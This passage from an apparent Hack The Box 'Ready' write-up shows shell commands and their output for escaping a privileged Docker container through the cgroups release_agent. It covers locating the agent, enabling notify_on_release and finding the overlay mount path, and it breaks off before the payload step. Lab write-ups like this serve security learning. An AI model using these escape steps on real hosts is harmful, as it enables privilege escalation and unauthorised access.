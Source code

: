 ![Gitlab reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Ready/gitlab_rev_shell.png)

### Docker container escape by cgroups

Another way of obtaining the root flag is by doing a container escape on docker. Since we are running in a privileged docker container, we can abuse the release_agent to create a reverse shell with root privileges.

To start off, we need to first find and enable the cgroups release_agent. Fortunately, this can be done on this machine. 

```
root@gitlab:/var/opt/gitlab/gitlab-rails/working# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
root@gitlab:/var/opt/gitlab/gitlab-rails/working# echo $d
echo $d
/sys/fs/cgroup/rdma
```

Next, we will have to enable the notify_on_release in the cgroup.

```
root@gitlab:/var/opt/gitlab/gitlab-rails/working# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
```

Afterwards, we will have to find the path of the Overlay FS mount for the container.

```
root@gitlab:/var/opt/gitlab/gitlab-rails/working# t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:/var/opt/gitlab/gitlab-rails/working# echo $t
echo $t
/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff
```

